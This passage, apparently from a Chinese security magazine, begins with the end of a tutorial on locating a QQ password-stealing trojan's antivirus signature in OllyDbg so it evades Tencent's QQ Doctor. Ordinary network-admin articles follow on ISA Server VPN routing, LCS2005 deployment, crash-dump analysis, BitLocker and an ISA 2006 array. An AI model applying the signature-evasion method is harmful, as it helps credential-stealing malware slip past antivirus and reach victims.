用 OD 载入服务端，全部 NOP 掉，也就是地址从 00458000 到 00488FFF 之间全部 NOP 掉。之后把滚动条拉到最上方，选中 00458000 按住 Shift 键，向下拉动滚动条直到中间位置，全部选上，之后鼠标右键点“撤消选择处修改”，如图 8 所示，即从地址 00458000 到 00471C4A 这里全部撤消修改。


图8

然后 QQ 医生扫描一次，发现了盗号木马，之后再把这段 NOP 掉，把剩下的下面的撤消修改。之后再 QQ 医生扫一次，未发现盗号木马，这说明特征在 00458000 到 00471C4A 之间。而不能直接这段杀就说在这里。我们用的是排除法，这样才万无一失。继续将 00458000 到 00471C4A 分成大概两半，重复刚才的操作，直到把区间缩小到最小，定位出来特征码和前面用 MYCCL 定位的是一个，在 004627AE 这里。这种方法我没有做过多介绍，因为网上有很多例子。

如果有什么问题可以到论坛上来讨论，我的论坛 ID 是 x140cC，或者来我的 BLOG 也可以，pop.34v1.cn。

## 编者篇

我在网上搜索了一下，几乎没有介绍怎么过 QQ 医生的文章和教程，有的只是作者在软件升级的时候直接过掉了 QQ 医生，对于直接改的还没有，所以就写了本文，主要是介绍对于一个新的东西的探索。至于技术几乎是比较老的，但有一些细节还是比较重要的。对此再做一些关键性的说明，定位的时候一定要保证定位的对象是无壳的，还有就是注意定位时的一些细节，这样才能快速地定位出特征。

适合读者：网管

前置知识：无

#### ISA Server 2004 与南北互通软件并优化结果

文／图 朱宏志

我们公司使用网通光纤上网，但这段时间联网到香港总部一直不稳定，掉包率很高，延迟又大。由于我们很多业务服务器都在香港，弄得我们的业务几乎都停顿了。后来经过 Trace 发现，出现问题的地方不在国内，而是在香港，所以网通也没办法解决，看来只有自救了。最终我们决定换成电信网络（因为外部测试电信比较稳定），但换网有一个过程，总不能在换网这段过程中让业务停顿吧？怎么办呢？看来只有来个权宜之计了，即通过第三方中转，于是我想到了那些南北互通的软件，利用它们在公司实现的情况大致如图1所示。


图1

经过网上搜索，发现在这些南北互通的软件中赢征网关的口碑还不错，但有一个问题，因为我想让整个内网都能使用赢征网关访问香港，而我的网关服务器是一台 ISA Server 2004。当我在 ISA Server 上安装此客户端并连接上之后，却发现本应该添加的电信路由在 `route print` 命令里没有输出，但在内网客户机上却有正常的路由表更新，看来赢征网关客户端与 ISA 有点不兼容。正准备放弃时，却发现赢征网关客户端实际上就是一个 PPTP VPN 客户端，既然如此，在 ISA 服务器就好处理了，也就是在 ISA 服务器上不必安装赢征网关这个客户端，直接创建一条到赢征网关的 PPTP VPN 连接就行。到底行不行呢？还是试一试吧！下面我们就一起来看看怎样在 ISA 2004 实现。

##### 步骤一：创建远程网络

我们这里需要把要访问的香港网络创建成一个 ISA 中的远程网络，以使访问香港网络时使用赢征网关中转。进入 ISA 管理窗口，定位到“虚拟专用网络”，选择右边的“远程站点”标签，再选右边的“添加远程站点网络”，出现“欢迎使用网络创建”向导窗口，首先为这个网络取一个名，这里就叫“香港”，然后点“下一步”进入“VPN 协议”窗口，这里选择第三项“点对点隧道协议(PPTP)”，如图2所示，然后会弹出一个窗口，不用理会它，确定即可。


图2

之后进入下一步“远程站点网关”，填入赢征网关的 VPN 服务器地址。这里有个问题，因为在赢征网关官网上我没有找到相关的服务器 IP，不过我们有很多种办法取得这种 IP。如果你先在某台客户机上安装了赢征网关客户端，然后安装“连接管理器管理工具包”（`adminpak.msi` 里面包含，可以从微软网站下载），就可以使用连接管理器管理工具来打开这个客户端的配置文件，里面会有相应的 IP 地址或 DNS 地址。

如果嫌麻烦，可以先在一台客户机上安装赢征网关客户端，然后用你在赢征网关购买的账号登录（需要你先选择某台 VPN 服务器），连接成功后，在命令行下运行命令 `route print | find "255.255.255.255"`，结果会如下所示。


然后结合 `ipconfig` 命令输出的结果，可以得出 VPN 路由器的 IP 是 221.5.236.67（排除那些 ipconfig 里有的 IP，剩下一个即是）；知道结果后就可以在如图3所示的窗口中填入 IP 了，实际上这个 IP 对应的 DNS 是 `cnc1.yzwg.net`。


图3

然后进入“远程身份验证”窗口，输入赢征网关账户名和密码，域一栏为空，如图4所示。我购买的是包一个月的，因为基本上只用这一个月，很便宜，15块钱，包年也就100多。再进入“网络地址”窗口，输入远程香港网络的 IP 范围，通常也就是一个子网，如图5所示。完成后确定，右击刚创建好的远程站点网络，进入其属性窗口，进入“身份验证”标签，只选择“未加密的密码”一项，如图6所示。


图4


图5


图6

##### 步骤二：创建网络规则

进入“配置”下的“网络”，右击选择“新建->网络规则”，进入“网络规则创建向导”，填入一个网络规则名，网络通讯源窗口选择内网 Internal，网络通讯目标选择上面新建的“香港”网络，网络关系为“路由”。

##### 步骤三：创建访问规则

右击“防火墙策略”，选择“新建->访问规则”，其中的各项参数如下：

- 规则操作：允许
- 协议：所有出站通讯
- 访问规则源：Internal 和 Local Host
- 访问规则目标：上面创建的 VPN 远程网络（这里是香港）
- 用户集：All users

经过这样的操作后，到香港网络就全部通过赢征网关中转了，也解了我们网络的燃眉之急。不过，上面的方法只有到香港网络是通过赢征网关中转的，到电信网络并不会由赢征网关中转；如果想电信网络也由赢征网关中转，只要在图5所示的环境中增加相应的电信网络即可。

适合读者：网络管理员、系统管理员、IT 架构人员

前置知识：网络基础知识、企业 AD 架构、MCSE

#### 打造企业级的消息协作平台

##### ——部署 Live Communications Server 2005

文/图 [微软TechNet观察家] 刘晋


感谢上帝让我们能再次相聚在黑防，我在以前的几期杂志中连续发表了关于 ISA2004 的几篇文章，分别讲解了 ISA2004 的安装、应用以及企业 ERP 的部署实施案例，希望我的文章能给大家的学习和工作带来一些帮助。本次我将介绍微软的一款即时消息协作系统 Live Communications Server 2005（简称 LCS2005），LCS2005 可以为企业或单位提供一种可管理并可扩展的企业级实时通信解决方案。通过 LCS2005 可以快捷地和商业合作伙伴以及联盟伙伴或者分公司进行即时消息通讯。它与企业内部的 Active Directory、Microsoft Office System 都是高度集成的，应用十分简便快捷，这也是未来企业中广泛应用的即时消息平台，国内很多企业已经在广泛使用了，同时国内也有这样的产品在推广，例如 RTX。

废话不多说了，下面开始介绍试验部署环境和要求。安装 LCS2005 之前，必须保证网络环境中部署了企业 AD，同时域控制器需要 Windows 2000 SP4 或 Windows Server 2003，全局编录服务器需要 Windows 2000 SP4 或 Windows Server 2003，并且至少有一个全局编录服务器位于林根，保证网络中的 DNS 配置正确。安装 LCS2005 的软件环境必须为 Windows Server 2003 Standard Edition、Windows Server 2003 Enterprise Edition、Windows Server 2003 Datacenter Edition 中的任意一种。因为 LCS2005 分为标准版和企业版两种，所以它们对数据库的要求各不一样。如果安装标准版的 LCS2005 可以选择 MSDE（Microsoft SQL Server Desktop Engine），如果安装企业版的 LCS2005 可以选择安装 SQL Server 2000 SP3a 或者 SQL Server 2005 SP1；因为企业版的部署涉及到服务器的负载均衡和群集等技术，对于初学者难度较大，所以这里我将以 LCS2005 Standard Edition 为例进行讲解。

首先是要部署 AD，我们通过“添加/删除程序”中的“添加/删除 Windows 组件”进行 AD 的安装，或者直接在配置服务器向导中进行添加，这样比较简单直观，如图1所示。


图1

我们选择“自定义配置”后单击“下一步”按钮，因为我们需要自己去定义和选择需要安装的组件和服务。在服务器角色中选择“域控制器（Active Directory）”后进行安装，如图2所示，然后会出现安装向导，根据安装向导完成即可。可能有一些朋友没有学过 MCSE 或者对 AD 不了解，这里就简单地截图说明了。在向导中会询问用户如何设置这个控制器，我们选择“新域的域控制器”，如图3所示。在单击下一步后出现创建一个新域的向导，同样地我们选择第一个选项“在新林中的域”，如图4所示。继续下一步，输入一个域名；在 NetBIOS 中输入名字；如图5和图6所示。然后继续单击下一步，当出现 DNS 注册诊断时，我们要选择第二个选项，这是因为我们的网络中没有部署 DNS 服务器，通过该步骤可以在这个 DC（域控制器）上同时安装配置 DNS 服务器，如图7所示。完成安装之后，系统会要求重新启动计算机。


图2


图3


图4


图5


图6


图7

至此 AD 和 DNS 就算是安装完成了，接下来就是安装 LCS2005 了。执行 LCS2005 的安装程序后出现安装界面，如图8所示。点击“Standard Edition Server(S)”进行安装，在出现的安装界面中按照步骤依次进行安装，如图9所示。


图8


图9

首先是要进行“准备构架(S)”，此时 LCS 将对系统的 AD 目录结构作一些修改，以达到 LCS 的要求，如图10所示。


图10

单击“下一步”后，LCS 会要求用户给架构文件指定一个目录，默认选择即可，如果有特殊需要的可以选择其他目录，请根据自己的实际情况进行操作，如图11所示。


图11

之后就是一路的“下一步”进行安装部署。当完成“准备架构”后，用户仍然需要继续点击“准备林”和“准备域”，在执行完以上几步就可以开始安装 LCS2005 了。安装程序启动后，首先会进行 MSDE 的安装和配置，如图12所示。当安装后出现一个提示，询问是否要激活服务器时，我们要选择“是”。


图12

之后 LCS 会出现一个设置用户账户的窗口，如图13所示。我们需要设置 LCS 的用户，默认情况下可以直接给“LCService”用户加个密码就可以了。不过这里要注意一下，此时添加的密码不能使用简单密码，如果你使用了简单密码会给出错误提示，如图14所示，因为在默认的 AD 域策略中是不允许使用简单密码的，同时默认策略对密码的要求也是非常严格的，包括了密码的最短字符、有效期限等。这个策略是可以被修改的，但我不建议在真实环境中停止密码复杂策略，因为它太不安全了，如图15所示。


图13


图14


图15

然后我们就可以打开 LCS2005 的管理控制台进行查看和设置了。相信一定有朋友在使用 Windows Server 2003 SP1 或 RC2 的版本，在使用这样的系统时你可能会发现打开 LCS2005 的管理控制台都是空白的，只能看到一个界面，里面什么都没有。不要着急，通过 MMC 进行添加就可以了。很简单，打开“运行”在里面输入“MMC”并回车确定，将会出现控制台，在工具栏中点击“文件->添加/删除管理单元”，再点击“添加”后选择“Live Communications Server 2005”进行添加。添加完毕后就可以看见 LCS2005 的控制台程序。

首先打开“管理工具”里的“DNS”控制台，我们需要在里面添加一条主机 A 记录。如果你是按照前面所介绍的方法进行操作的话，这里基本可以省去，因为 DNS 中已经有该记录了。可能有朋友要问，那为什么还要做这一步呢？道理很简单，如果 LCS2005 并没有和 DC、DNS 都部署在同一台计算机上的时候，就应该在 DNS 服务器上添加这个 LCS2005 服务器的 DNS 记录。这里是将 DC、DNS、LCS2005 都部署在同一台计算机上，所以可以省掉添加 DNS 记录的步骤，如图19所示。


图16


图17


图18


图19

DNS 设置好后就要对用户进行设置了。还记得在安装 LCS2005 时添加的那个 LCService 用户吗？现在我们给它做个简单的设置就可以了。打开“Active Directory 用户和计算机”，双击 LCService 用户后在属性中作以下修改，设置用户的登录名，然后在“Live Communications”中给该用户登录权限，并设置 SIP。本例为 `LCService@debug110.com`，同时要设置“服务器或池”，本例中为 `debug.debug110.com`，如图20和图21所示。


图20


图21

中场休息：现在大家可以四处走动走动，但为了不错过本次教学，请不要走得太远。到目前为止，我们基本完成了 LCS2005 的搭建。现在企业内部用即时消息通信还是比较多的，我接触的部分客户就有在使用腾讯 RTX 的，还有一些单位使用内部 ICQ 等，这些即时消息软件与系统的集成度不高，并没有完全和企业做到系统集成。而 LCS2005 可以和 AD、Office System 集成，例如与 Outlook、Excel、Word 集成，联机后还可以进行视频会议、共享应用程序、电子白板等；同时如果企业将电话交换机和语音网关与 LCS2005 配置在一起的话，还可以通过客户端进行电话拨号等，十分方便。

通过上面的操作，我们基本完成了 LCS2005 的安装，接下来就是进行设置了。设置其实并不难，只需要你设置一下 DNS 的记录，在“Active Directory 用户和计算机”中添加和设置用户账户就可以了。

完成以上步骤后，我们就可以进行测试了。一般人都习惯马上使用客户端来登录进行验证。那么大家知道使用什么客户端来登录吗？估计有一些人会认为使用 Windows Messenger 4.7–5.1 版本就可以了，不错，完全正确，不过这次我将使用新的客户端，因为以后微软要停止 Windows Messenger 了。至于是什么客户端，我们后面会介绍，现在先给大家介绍一款非常好的检测工具：Live Communications Server Resource Kit，它专门用于 LCS 部署和实施中的排错。关于工具的安装我就不多说了，简单得和 QQ 一样，不过安装时千万注意其安装路径，因为安装好后不会产生任何桌面快捷方式，所有的可执行文件都在文件夹下，我们只需要到安装目录中执行一个名为“LCSDiag.exe”的文件就可以了，如图22所示。


图22

在右边的工具栏中有选项，选择“TCP/TLS Connectivity”，在打开的界面中，我们需要输入服务器的 FQDN 名，Port 默认为 5060 或 5061，这是根据设置的协议来确定的。因为此时我们并没有配置 TLS，所以选择“TCP”协议类型，选择完毕后就可以点击“开始”了，如图23所示。该工具检查速度非常快，马上就会给出提示，如图24所示。从图中可以看出协议和服务器的通讯全部通过了，如果没有通过会给出红色警告的，大家可以根据红色警告进行检查。

接下来再进行客户端的检查，在工具栏中选择“Diagnostic Client”后出现一个登录页面，如图25所示。根据提示进行填写，本例中 Sign-in name 为 `LCService@debug110.com`，User name 为 `debug110.com\LCService`，Password 为安装 LCS 时设置的密码。设置完毕后点击“NEXT”，设置服务器的 FQDN 名和连接协议，全部设置完毕后点击“开始”，界面上马上会给出测试结果。如果出现红色警告，就要仔细检查服务器的 LCS 服务是否已经启动，或者 DNS 是否已经添加记录，或者是用户设置是否正确等。如果出现图26中的信息，就说明我们部署的 LCS2005 服务器已经在正常工作并且可以登录了。好了，现在该说说用什么客户端了，客户端我们选用的是 Office Communicator 2005。最早我接触 LCS2005 时使用的是 Windows Messenger 4.7，界面很丑陋，后来换用 Office Communicator 2005 英文版，目前已经有中文版了，再次方便了很多不懂英文的朋友。


图23


图24


图25

## LCS2005 Standard Edition 部署试验（续）

英文界面的客户端设置非常简单，只需要设置登录名和登录服务器即可，如图27和图28所示。设置完毕后，返回登录界面，点击“登录”后会出现登录对话框，如图29所示。输入相关用户信息后就可以登录服务器了，如图30所示。此时我们只是在服务器端完成了所有配置，并可以正常登录服务器。

之后还需要在 AD 的用户管理中再添加一个用户，然后在客户端安装 Office Communicator 2005。登录后，在 Office Communicator 2005 里添加联系人即可进行通讯，如图31所示。

至此，本例中讲述的 LCS2005 Standard Edition 部署试验就算成功了，但这仅仅是一个开始。LCS2005 的真实企业部署和应用还有很多工作，相关设置与部署不能像这样简单和草率，需要做大量考察和规划，牵扯到整个企业网络结构、AD 管理以及各个服务器之间的关系。

同时，标准版和企业版的部署也不太一样。企业版部署需要考虑服务器群集和负载均衡等问题。在整个实验部署过程中，大家可能会遇到很多次失败，但不要灰心，只要认真分析，都可以找到问题的关键所在。最后感谢大家阅读，文中还提到可下载 LCS2005 SP1 评估版与 Office Communicator 2005 简体中文版等资源。

---

适合读者：网管  
前置知识：无

#### 用 Debugging Tools for Windows 寻找服务器意外重启的线索

文／图 朱宏志

公司的一台服务器最近总是莫名其妙地不定时重启。在这件事发生之前，这台服务器并没有添加新的硬件，也没有安装新的软件，包括新的补丁。于是我怀疑是硬件出了问题，特别是电源和 CPU 风扇。看来只有分析一下系统保存的 DUMP 文件了。DUMP 文件是系统意外关闭时保存的内存转储文件，对分析故障原因很有用。

在服务器版本的操作系统上，默认保留一个完全内存转储，这个 DUMP 文件比较大。一般分析只需要一个小内存转储文件即可。右击“我的电脑”→“属性”→“高级”→“启动和故障恢复”的“设置”按钮，在“写入调试信息”里选择“小内存转储”。

现在我们需要一个 DUMP 文件分析工具，这里推荐微软的 Debugging Tools for Windows。下载安装后运行，在 File 菜单中选择“Open Crash Dump”打开 DUMP 文件。大家注意倒数第二行的“Probably caused by : SYMTDI.SYS”。分析结果表明这个问题可能是由 SYMTDI.SYS 引起的。

于是查找该文件，发现它是 Symantec 杀毒软件的一个驱动程序文件。卸载 Symantec 并重启后，服务器恢复正常运行。问题很可能由该驱动造成，也可能与杀毒软件引擎更新有关。

图1 图2 图3

---

适合读者：工具爱好者、网管  
前置知识：无

#### 实战 BitLocker 加密

BitLocker 驱动器加密是 Vista 的一项新功能。它的加密效果有多强？如何实施？有什么要求？能缓解哪些安装风险？很多朋友听得多，但由于实施它时要受到一些条件限制，也许真正实际操作过的朋友并不多。本文将以实验为基础，探索 BitLocker 驱动器加密的方方面面。

要注意的是，安装完成后，安装 Vista 所在的分区将被 Vista 自动识别为 C 盘，其余分区按从前到后的顺序分别被识别为 D（本例中为分区1）、E（本例中为分区3）、F（本例中为分区4）。将 Vista 安装到其他容量足够且为 NTFS 格式（Vista 的要求）的逻辑分区（BitLocker 驱动器加密的要求）也可以。

##### 实施条件

- 硬件要求：主板内置 TPM 芯片，或者 U 盘二选一。本文将讨论用 U 盘进行加密。
- 软件要求：使用 Windows Vista 旗舰版（Ultimate）或企业版（Enterprise），也可用 Windows Longhorn Server。
- 分区要求：活动主分区和逻辑分区各一，其他分区任意。按照微软关于 BitLocker 的白皮书要求，活动主分区为 NTFS 格式，容量约 1.5GB；逻辑分区用于安装 Vista，也必须为 NTFS 格式（这是安装 Vista 的要求，不是 BitLocker 的要求），容量推荐为 15GB 或更大。

图1

> 小提示：TPM 芯片内置于电脑主板上，可将密码存于其中。由于 BitLocker 要在电脑启动初始阶段验证密码，还必须要求主板 BIOS 能对其进行识别。  
> 小提示：如果已安装 Vista，但分区布置或安装位置与 BitLocker 驱动器加密要求不符（即活动主分区和逻辑分区各一，且将 Vista 安装到逻辑分区），不必像本文这样重新布置分区并安装。Vista 提供两种方法解决：其一是下载并安装 Drive Preparation Tool，在不破坏已装系统基础上重部署分区；其二是通过命令提示符工具完成。

##### 实验探索

- 1）分区  
  按以上要求，可提前用分区魔术师等在硬盘上创建如图1所示分区。其中分区1为活动主分区，分区2为逻辑分区。要实施 BitLocker 驱动器加密，这两个分区是关键。为验证不能对其他分区加密，笔者特意规划了分区3和分区4，它们分别是 FAT32、NTFS 格式。

- 2）安装  
  全新安装 Windows Vista，请选择旗舰版或企业版，其他版本不支持 BitLocker 驱动器加密。本例中，我们选择将 Windows Vista 安装到分区2中，别无其他要求。

##### 3）加密实战

- A. 组策略设置  
  默认情况下，用 U 盘实施 BitLocker 驱动器加密功能未开启，需要到组策略里进行设置。按 Win+R 组合键，调出“运行”对话框，输入 gpedit.msc 打开“组策略对象编辑器”。在左侧控制台树中依次展开“本地计算机策略→计算机配置→管理模板→Windows 组件→BitLocker 驱动器加密”。在右侧窗口中启用高级启动选项，勾选“允许在没有兼容 TPM 时使用 BitLocker”，如图2所示。  
  控制面板设置“配置恢复文件夹”：双击之，选择“已启用”，在“默认配置文件夹路径”后手动输入一个文件夹的绝对路径，比如“D:\Bitlockerback”。  
  配置加密方法：按前面的方法选择“已启用”，再选择一种加密方法，比如有扩散器的 AES 256 位。

- B. 加密实战  
  首先将 U 盘插入，然后通过控制面板启动 BitLocker 驱动器加密。单击“开始→控制面板→安全→BitLocker 驱动器加密”，弹出如图3所示对话框，单击“启用 BitLocker”，让加密向导启动，然后按提示操作。

> 如果没有经过前面的组策略设置，不会在图3中出现“启用 BitLocker”；如果分区规格不符合要求，也会在图3中得到相应提示信息。

- 设置 BitLocker 启动选项：选择“每一次启动时要求启动 USB 密钥”。
- 保存启动密钥：选择 U 盘（前提是已插入 U 盘）。
- 保存恢复密码：如图4所示，可选择将恢复密码保存到 U 盘、文件夹或现场打印。为保险起见，可先选择保存到文件夹再查看或打印。要注意，选择文件夹时不能选择安装 Vista 所在分区（本例为分区2）；且选择其他分区时不能直接保存到根目录，必须保存到新建文件夹下。
- 加密卷：此步如图5所示，提示被选中的加密卷是 C（可简单理解为 C 盘）。其实前面几步中根本无法选择对哪一分区加密。也就是说，只能对 C 盘（即安装 Vista 所在分区）进行加密，其他分区（本例中分区1、3、4）都不能加密。之后勾选“运行 BitLocker 系统检查”，再单击“继续”，电脑会自动重启，并在重启后自动进行加密。
- 完成：完成后，可在 U 盘和指定文件夹下找到一个文本文档，两者内容完全相同，其中保存的就是 BitLocker 密码。

> 重新启动时，记得将 U 盘插入 USB 接口，而且必须在 CMOS 中设置让电脑在启动初始阶段（读取 BIOS 信息时）就能识别 U 盘，否则会因找不到 U 盘导致加密失败。如果采用 MP3 等代替标准 U 盘，加密不会成功，因为这类移动设备不会在电脑启动时被 BIOS 识别。

这个 U 盘可称为 BitLocker 密钥盘。实践表明，该 U 盘常规功能不受影响，仍可拷贝文件，但最好不要这样做。

##### 4）验证加密效果

- A. 插入密钥 U 盘启动电脑  
  启动后，在屏幕显示硬件基本信息后，可观察到提示：  
  “已加载 Windows BitLocker 驱动器加密密钥，请删除密钥存储媒体”  
  这表示密码已通过验证，此时即使取下 U 盘，电脑也可正常启动。

- B. 无 U 盘启动电脑  
  启动后，在屏幕显示硬件基本信息后，可观察到如图6所示提示信息。若能正常输入密码，电脑也能启动，否则不能启动。此时电脑控制权尚未交给操作系统，仍在 BIOS 控制中，谈不上对保存在硬盘中的文件进行解密。

- C. 离线破解  
  将被 BitLocker 加密的电脑硬盘取下并安装到其他电脑上，就算插入 U 盘，电脑也不能启动。  
  如果用其他电脑原有操作系统引导，再尝试打开 BitLocker 加密后的硬盘分区（本例中是分区2），会提示分区尚未格式化。但其他分区（本例中分区1、3、4）能正常打开并读写文件。若通过网络（笔者只试验了局域网）访问该硬盘，也无法打开分区2中的文件，但可打开分区1、3、4。  
  由此可见，BitLocker 加密是对整个分区进行的。如果没有密钥 U 盘、不持有正确密码或离开实施加密时的电脑，被保护分区中的任何文件都无法读取，更谈不上修改。还要注意的是，在离线破解时，其他分区可处于读写状态。

##### 5）BitLocker 密码管理

经 BitLocker 驱动器加密后，再次打开控制面板下的“BitLocker 驱动器加密”，可看到“关闭 BitLocker”和“管理 BitLocker 密钥”两个选项。

- A. 关闭 BitLocker  
  选择后，可在下一界面选择“禁用 BitLocker 驱动器加密”或“解密此卷”，如图7所示。  
  - 禁用 BitLocker 驱动器加密：选择后，BitLocker 会自动禁用。下次启动电脑时无需提供任何安全凭证（包括插入 U 盘和手动输入密码）；更严重的是，禁用时也不用提供任何安全凭证。禁用后，“关闭 BitLocker”会显示为“恢复 BitLocker”，单击即可恢复到加密状态。  
  - 解密此卷：选择后，BitLocker 驱动器加密将被解除，且实施该操作时同样不用提供任何安全凭证。

- B. 管理 BitLocker 密钥  
  可在提示引导下重新生成多张密钥 U 盘。

##### 安全隐患及防范

动脑筋思考一下，就可发现其中的安全隐患，不过这些隐患多由人的疏忽造成，可以防范。

首先，安全隐患来自文件重定向。因为离线破解时，可读取本例中分区1、3、4里的文件。防范方法：将要保护的文件全部保存到本例的分区2中。由于 Vista 安装在分区2，很多朋友装完系统后习惯把用户文件重定向到其他分区，没想到这会使用户文件在 BitLocker 面前失效。另外，也不要对页面文件、休眠文件等进行重定向处理，这两类文件也是泄密之源。若必须重定向用户文件，建议对其进行 EFS 加密，实施后离线破解将失效。

其次，隐患来自 BitLocker 密码管理，因为“禁用 BitLocker 驱动器加密”或“解密此卷”时可在不提供任何安全凭证的前提下进行。想想后果：如果 BitLocker 被禁用或解除，心怀觊觎者盗得你的电脑后，仍可在无任何凭证的条件下启动。或者趁你不注意时，他也可实施禁用或解除操作（注意，实施时不用提供安全凭证），只要这一步成功，就有很多办法读取或修改你的保密文件——偷走电脑或硬盘、随时启动你的电脑、通过网络访问等。

防范：最好不要解除或禁用 BitLocker 驱动器加密，暂时离开电脑时请关机。当然，实施 EFS 加密也可为文件安全构筑第二道防线。

最后，记得保护好你的密钥 U 盘。如果发现电脑被盗，还可来个鱼死网破——销毁密钥 U 盘。

---

适合读者：网络管理员、企业架构人员  
前置知识：网络基础知识、MCSE、ISA2004 应用

#### 部署 ISA Server 2006 企业版防火墙阵列

文／图 Microsoft TechNet Observer·刘晋

我在以前多期杂志中连续讲解了微软 ISA2004 的安装、测试和企业部署方案，对 ISA2004 的部分特性作了讲解和演示。相信很多朋友已经对 ISA2004 不再陌生，或者已经在自己的企业中应用。不过以前讲解内容基本没有涉及 ISA2004 企业版应用。为了弥补不足，这次我将继续带领大家感受 ISA2006 企业版防火墙阵列部署，更深入了解 ISA 防火墙在企业中的实用价值。

肯定有朋友会先问：ISA2004 与 ISA2006 有什么区别？ISA2006 可以说是 ISA2004 的升级版，修正了 ISA2004 的一些错误，同时在功能上作了加强。比如 ISA2006 在发布服务器时支持 SharePoint 站点发布；发布邮件服务器时可支持 Exchange Server 2007；发布 Web 服务时可通过服务器场方式发布；同时增加了 LDAP 身份认证，在做安全 Web 发布时还可针对不同 IP 绑定不同服务器证书。ISA2006 中集成了 BITS 缓存、基于 DiffServ 协议的 QoS 功能，并支持 HTTP 压缩。要知道这些功能只有在 ISA2004 SP2 中才会出现。更多内容可访问：http://www.microsoft.com/technet/isa/2006/default.mspx 。

下面大概介绍一下本人的网络环境。本次部署为工作组模式，需要两台 ISA2006 服务器、一台证书服务器以及两台客户端，安装的操作系统全部为 Windows Server 2003 R2 并进行了 Windows Update。大家可以通过 Virtual PC 2007、Virtual Server 2005 R2 或 VMware Workstation 5.5.3 搭建实验环境。建议使用 Virtual PC 2007 或 Virtual Server 2005 R2，便于后续做群集实验；VMware 做群集实验时可能需要在每个群集节点虚拟机上修改部分配置文件。网络结构如图1所示，IP 地址如下：

| 节点 | IP信息 |
|---|---|
| Client/Server-1 | 192.168.0.1 |
| ISA-1 | External: 192.168.0.2；Internal: 172.168.1.1 |
| ISA-2 | External: 192.168.0.3；Internal: 172.168.1.2 |
| CertSrv | 172.168.1.254 |
| Client/Server-2 | 172.168.1.3 |

其中，Client/Server-1 为外网客户端或某网站服务器；ISA-1 和 ISA-2 是本次实验中的防火墙阵列；CertSrv 是内网 CA 服务器；Client/Server-2 是内网客户端或服务器；网络环境为工作组模式。

下面先部署 CA 服务器。CA 服务器安装比较简单，但要注意以下几点：安装 CA 服务器必须使用独立服务器，不要与其他服务安装在同一台计算机中，比如 DHCP 或 DC。因为安装 CA 后，服务器不能再修改计算机名或所属域等信息，否则会导致严重错误。安装 CA 前应先安装 IIS，这样可通过 Web 申请证书，也是本次实验不可缺少的。在 CertSrv 计算机中放入系统安装盘，通过添加系统组件安装 CA，如图2所示。将证书服务和 Web 注册支持全部选中并安装。

出现安装界面后，选择“独立根 CA”并单击下一步；在设置 CA 标识信息界面中输入 CertSrv，并一路下一步直至完成安装。这样就完成了 CA 服务器部署。接下来部署第一台 ISA2006，这里的部署安装与前几期杂志讲解有较大差异，请大家认真阅读。

打开 ISA-1 服务器，使用 IE 访问 http://172.168.1.254/certsrv/（即刚才部署的 CA 服务器）。在证书申请首页“选择一个任务”中点击“申请一个证书”；在证书申请类型页面选择“高级证书申请”（图3）；在高级证书申请中选择“创建并向此 CA 提交一个申请”（图4）。

在高级证书申请表中需要填写一些内容，同时要注意以下方面。首先在“姓名”处填写 ISA-1（图5）。这里的名字不一定必须是 ISA-1，但必须与将要安装 ISA2006 的第一台服务器计算机名一致，不能随意填写，否则后续 ISA-1 与 ISA-2 将无法进行 CA 验证，也就无法组成阵列服务器。

接下来修改密钥选项：一定要选中“标记密钥为可导出”，并选中“将证书保存在本地计算机存储中”。若忽略这些设置，后续证书导出和安装会出错（图6）。申请格式等无需修改，确认无误后点击“提交”，在提示窗口点击“是”。

提交申请后会返回证书颁发页面，点击“安装此证书”即可。注意：这里因为使用了自动颁发证书，所以提交后能马上返回“证书已颁发”页面。默认情况下并不会自动返回该页面，你需要到 CertSrv 服务器的证书颁发机构中手工颁发证书，然后回到 ISA-1 打开 CA 站点查看挂起证书，最后才能安装。

安装证书后，返回 CA 站点首页，继续点击“选择一个任务”中的“下载一个 CA 证书、证书链或 CRL”（图7）。在随后页面中选择“下载 CA 证书”（图8），将证书保存到本地计算机，并把该证书导入到 ISA-1 中。

在导入向导中单击下一步，此处需选择导入位置。点击“浏览”后，选择“受信任的根证书颁发机构”（图9）。安装好下载的证书后，进入 MMC 进行服务器证书导出操作。

图8

图11

图10所示，大家应该对 MMC 不陌生吧？我记得在今年《黑防》第4期中部署 LCS2005 时就讲过了，不了解的朋友请自行补充学习，这里不作讲解。在证书管理单元中……

图9

图12

图10

图13

选择“计算机账户”，在证书管理控制台中点击“个人”下的“证书”，此时可以在右边看见名为“ISA-1”的证书，颁发机构为“CertSrv”，如图11所示。其中的 ISA-1 证书就是我们刚才通过 IE 申请并安装的证书，现在需要我们将该证书导出。选中该证书点击右键选择导出，在向导中选择“是，导出私钥”，如图12、13所示。继续单击下一步后，向导会提示输入私钥，输入后单击下一步选择保存证书的路径，这里我直接保存到桌面了，文件名为 ISA-1.PFX。

接下来我们将要开始安装 ISA2006 企业版了。如果使用的是 ISA2004 企业版，也需要按照如下方法安装。将 ISA2006 企业版光盘载入，进入安装界面后选择“安装 ISA Server 2006”后出现安装选择界面，这里看见的安装界面将和标准版有明显区别，多了一个 CSS 服务器（配置存储服务器）。先不要着急安装 ISA 服务器服务，即使你开始安装 ISA 服务器服务，也会提示无法安装，因为 ISA2006 企业版需要一个 CSS 服务器作为存储，所以我们必须先安装 CSS 服务器，如图14所示。

> ISA2004、ISA2006 企业版的安装需要 CSS 服务器，它所有的配置信息都存储在 CSS 服务器中，在 ISA2004、ISA2006 标准版中所有的配置信息都保存在系统注册表中，而 ISA2000 企业版的配置信息是要保存在 AD 中的，所以 ISA2000 企业版是必须部署于 AD 架构中的，因为有 CSS 服务器才使 ISA2004/ISA2006 企业版支持工作组模式。

图14

服务器选中安装，在出现选择 CSS 服务器时，需要输入 FQDN 名，当然就是 ISA-1 了，如图16所示。

图16

因为是安装第一台 ISA2006，所以安装选项中需要选择“创建新 ISA 服务器企业”，单击下一步后需要输入一个新企业的名字。继续单击下一步按钮，在企业部署环境中注意安装选择，有两个选择，第一个是在域环境中部署企业版，也是默认的安装方式，因为本次部署试验没有 AD 环境，所以我们需要选择第二项，在工作组中部署，此时需要服务器证书。还记得刚才导出的 ISA-1.PFX 文件吗？这里就选择它，证书密码就是导出时的私钥，如果在申请证书时没有按照前面所讲的进行，这里是没有办法继续部署的，如图15所示，单击下一步按钮，直到安装完成。

图15

单击下一步按钮后，在阵列成员选项中选择“创建新阵列”，然后继续单击下一步，出现 CSS 服务器身份验证选项，我们把从 CertSrv 站点上下载的根证书导入，如图17所示。如果你刚才在下载根证书后并安装到了指定位置，那么这里可以直接选择“使用现有受信任的根 CA 证书”。

图17

